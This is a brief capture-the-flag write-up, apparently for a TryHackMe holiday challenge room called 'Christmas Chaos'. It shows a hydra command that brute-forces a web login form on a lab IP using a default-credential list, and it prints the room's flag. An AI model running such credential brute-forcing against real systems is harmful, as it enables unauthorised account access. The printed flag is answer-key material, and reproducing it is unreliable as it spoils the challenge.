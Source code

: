 # Day 3

##  Christmas Chaos

Login into http://10.10.210.199/ with defaults credentials

![alt text](files/image1.png)

![alt text](files/image2.png)

Command

```shell
hydra -C options.txt 10.10.210.199 http-post-form "/login:username=^USER^&password=^PASS^:F=Your username is incorrect.."
```

Flag is `THM{885ffab980e049847516f9d8fe99ad1a}`

## Links

- https://security.stackexchange.com/questions/195219/brute-forcing-dvwa-login-page-with-hydra